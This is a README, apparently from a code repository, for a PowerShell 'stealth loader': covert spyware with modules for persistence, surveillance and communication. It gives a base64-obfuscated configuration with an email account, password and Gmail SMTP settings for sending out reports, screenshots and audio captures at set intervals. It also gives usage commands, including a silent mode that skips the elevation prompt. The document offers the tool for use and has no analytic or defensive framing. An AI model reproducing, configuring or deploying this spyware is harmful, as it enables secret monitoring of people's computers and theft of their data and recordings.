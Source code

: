 ## File Structure

```
PowerShell/
├── StealthLoader.ps1          # Main stealth loader
├── BuildStealth.ps1           # Build script for executable
├── Modules/
│   ├── StealthPersistence.ps1 # Persistence mechanisms
│   ├── StealthSurveillance.ps1 # Data collection
│   ├── StealthCommunication.ps1 # Communication
│   └── StealthCrypto.ps1      # Cryptographic operations
└── README_Stealth.md          # This documentation
```

## Configuration

### Email Settings
Edit the encrypted configuration in `StealthLoader.ps1`:

```powershell
$EncryptedConfig = @{
    "Email" = "Y29jY29kZXI5OTlAZ21haWwuY29t"        # Your email
    "Password" = "cGxieSBzeWhhIG9hZ2Egand0dQ=="     # Your password
    "SmtpServer" = "c210cC5nbWFpbC5jb20="           # SMTP server
    "SmtpPort" = "NTg3"                             # SMTP port
    "UseTls" = "dHJ1ZQ=="                           # Use TLS
    "LogInterval" = "MzYwMA=="                       # Report interval (seconds)
    "ScreenshotInterval" = "MzAw"                    # Screenshot interval
    "AudioInterval" = "OTAw"                         # Audio interval
    "MoveInterval" = "NjAw"                          # Movement interval
}
```

### Encryption Keys
Each module uses unique encryption keys:
- **StealthLoader**: `StealthKey2024`
- **Persistence**: `PersistenceKey2024`
- **Surveillance**: `SurveillanceKey2024`
- **Communication**: `CommunicationKey2024`
- **Crypto**: `CryptoKey2024`

## Usage

### 1. Direct Execution
```powershell
# Run with elevation prompt
.\StealthLoader.ps1

# Run silently (no elevation prompt)
.\StealthLoader.ps1 -Silent
```
